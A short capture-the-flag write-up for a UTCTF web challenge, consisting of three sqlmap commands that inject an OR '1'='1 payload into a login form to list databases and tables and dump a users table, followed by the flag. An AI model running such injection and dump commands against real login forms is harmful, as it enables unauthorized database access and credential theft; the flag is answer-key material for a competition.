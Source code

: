 #### Challenge:

this challenge is epic i promise, the flag is the password [link](http://web2.utctf.live:5006/)

---

#### Solution:

```bash
sqlmap -u "http://web2.utctf.live:5006/" --data "username=1' OR '1'='1&pass=*" --random-agent --level 5 --risk 3 --dbs
sqlmap -u "http://web2.utctf.live:5006/" --data "username=1' OR '1'='1&pass=*" --random-agent --level 5 --risk 3 -D public --tables
sqlmap -u "http://web2.utctf.live:5006/" --data "username=1' OR '1'='1&pass=*" --random-agent --level 5 --risk 3 -D public -T users --dump
```

---

<details><summary>FLAG:</summary>

```
utflag{dual1pa1sp3rf3ct}
```

</details>
<br/>

